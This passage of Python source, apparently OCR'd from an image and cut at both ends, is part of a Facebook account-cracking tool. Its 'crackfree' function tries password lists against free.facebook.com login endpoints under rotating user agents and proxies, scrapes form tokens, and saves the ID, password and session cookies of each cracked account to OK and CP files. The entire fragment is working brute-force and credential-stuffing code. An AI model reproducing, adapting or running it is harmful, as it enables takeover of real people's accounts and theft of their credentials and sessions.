			else:
				continue
		except requests.exceptions.ConnectionError:
			time.sleep(31)
	loop+=1
#------------------[ METHODE-MBASIC-2 ]-------------------#
def crackfree(idf,pwv):
	global loop,ok,cp
	sys.stdout.write(f"\rðŸ”¥ {P}[{asu}Mbasic{P}]{P}[{b}{loop}{P}/{p}{len(id)}{P}]â€”{P}[{H}{ok}{P}]â€”{P}[{k}{cp}{x}]â€”[{m}{'{:.0%}'.format(loop/float(len(id)))}{P}]  "),
	sys.stdout.flush()
	ua = random.choice(ugen)
	ua2 = random.choice(ugen2)
	ses = requests.Session()
	for pw in pwv:
		try:
			ses.headers.update({'Host': 'free.facebook.com','cache-control': 'max-age=0','sec-ch-ua-mobile': '?1','upgrade-insecure-requests': '1','user-agent': ua2,'accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9','sec-fetch-site': 'same-origin','sec-fetch-mode': 'cors','sec-fetch-dest': 'empty','accept-language': 'id-ID,id;q=0.9,en-US;q=0.8,en;q=0.7'})
			p = ses.get('https://free.facebook.com/login/device-based/password/?uid='+idf+'&flow=login_no_pin&refsrc=deprecated&_rdr')
			dataa ={"lsd":re.search('name="lsd" value="(.*?)"', str(p.text)).group(1),"jazoest":re.search('name="jazoest" value="(.*?)"', str(p.text)).group(1),"uid":idf,"next":"https://free.facebook.com/login/save-device/","flow":"login_no_pin","pass":pw,}
			koki = (";").join([ "%s=%s" % (key, value) for key, value in p.cookies.get_dict().items() ])
			koki+=' m_pixel_ratio=2.625; wd=412x756'
			heade={'Host': 'free.facebook.com','cache-control': 'max-age=0','sec-ch-ua': '" Not A;Brand";v="99", "Chromium";v="98"','sec-ch-ua-mobile': '?1','sec-ch-ua-platform': '"Android"','upgrade-insecure-requests': '1','origin': 'https://free.facebook.com','content-type': 'application/x-www-form-urlencoded','user-agent': ua,'accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9','x-requested-with': 'XMLHttpRequest','sec-fetch-site': 'same-origin','sec-fetch-mode': 'cors','sec-fetch-dest': 'empty','referer': 'https://free.facebook.com/login/device-based/password/?uid='+idf+'&flow=login_no_pin&refsrc=deprecated&_rdr','accept-encoding': 'gzip, deflate, br','accept-language': 'ms-MY,ms;q=0.9,en-US;q=0.8,en;q=0.7','connection': 'close'}
			po = ses.post('https://free.facebook.com/login/device-based/validate-password/?shbl=0',data=dataa,cookies={'cookie': koki},headers=heade,allow_redirects=False,proxies=proxs)
			if "checkpoint" in po.cookies.get_dict().keys():
				print(f'\r{K}>> {idf}|{pw}{N}')     
				os.popen('play-audio .cp.mp3')
				open('CP/'+cpc,'a').write(idf+'|'+pw+'\n')
				akun.append(idf+'|'+pw)
				cp+=1
				break
			elif "c_user" in ses.cookies.get_dict().keys():
				ok+=1
				coki=po.cookies.get_dict()
				kuki = (";").join([ "%s=%s" % (key, value) for key, value in ses.cookies.get_dict().items() ])
				print(f'\r{H}>> {idf}|{pw}|{kuki}{N}')
				os.popen('play-audio .ok.mp3')
				open('OK/'+okc,'a').write(idf+'|'+pw+'\n')
				cek_apk(session,coki)
				break
				